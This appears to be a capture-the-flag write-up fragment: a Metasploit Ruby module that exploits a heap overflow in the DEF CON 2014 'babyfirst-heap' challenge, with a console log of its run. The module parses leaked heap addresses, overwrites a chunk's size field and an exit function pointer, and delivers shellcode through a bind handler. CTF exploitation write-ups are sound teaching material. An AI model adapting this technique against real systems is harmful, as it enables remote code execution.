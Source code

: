 ```ruby
      [
                Opt::RHOST('babyfirst-heap_33ecf0ad56efc1b322088f95dd98827c.2014.shallweplayaga.me'),
        Opt::RPORT(4088)
      ], self.class)

  end

  def exploit
    connect

        data = sock.recv(2048)
        data = sock.recv(2048)
        print data
        addr = ""
        # [ALLOC][loc=874F058][size=755]
        data.split().each do |elem|
          if elem.match("\\[ALLOC\\]\\[loc=\(.*\)\\]\\[size=\(.*\)\\]")
            # size
            if $2 == "260"
              addr = $1
              addr = [addr.to_i(16)+8].pack("<V")
            end
          end
        end

        p = ""
        p += "\xa4\xc8\x04\x08" # do_exit() - 8
        p += addr
        p += "\xeb\x0C" # jmp 12
        p += "\x90"*16 # why not?
        p += payload.encoded
        p += "A" * (260 - p.size)
        p += "\x01\x00\x00\x00" # overwrite the size block
        p += "\xa4\xc8\x04\x08" # do_exit() - 8
        p += addr
        print_status p.inspect

        # send the payload
        sock.put(p + "\n")
        print_status sock.get_once

    handler
    disconnect
  end

end
```

## Solution
```
msf  exploit(heap) > exploit

[*] Started bind handler

I am going to allocate 20 objects...
Using Dougle Lee Allocator 2.6.1...
Goodluck!

Exit function pointer is at 804C8AC address.
[ALLOC][loc=9BFB008][size=1246]
[ALLOC][loc=9BFB4F0][size=1121]
```